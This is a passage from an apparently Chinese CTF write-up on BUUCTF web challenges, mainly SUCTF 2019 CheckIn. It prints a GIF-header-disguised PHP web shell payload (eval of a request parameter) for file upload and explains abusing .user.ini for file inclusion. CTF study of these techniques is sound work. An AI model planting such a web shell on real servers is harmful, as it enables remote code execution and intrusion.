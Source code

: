 这里把\==换成了\===，0e大法失效，只能数组绕过。

## 0x15.[SUCTF 2019]CheckIn

```
GIF89a? <script language="php">eval($_REQUEST[shell])</script>
```

上传

![image-20210418161338218](BUU-WEB-0x10-0x1F/image-20210418161338218.png)

本题的重点来了，文件包含漏洞，

user.ini。它比.htaccess用的更广，不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用这个方法。可谓很广，不像.htaccess有局限性，只能是apache.

什么是.user.ini？

这得从php.ini说起了，php.ini是php的默认配置文件，这些配置中，分为几种：

![image-20210418161711896](BUU-WEB-0x10-0x1F/image-20210418161711896.png)

除了主 php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web 根目录（`$_SERVER['DOCUMENT_ROOT']` 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。

在 `.user.ini` 风格的 INI 文件中只有具有 PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI 设置可被识别。

>   `.user.ini`是一个能被动态加载的ini文件。也就是说我修改了`.user.ini`后，不需要重启服务器中间件，只需要等待`user_ini.cache_ttl`所设置的时间（默认为300秒），即可被重新加载。

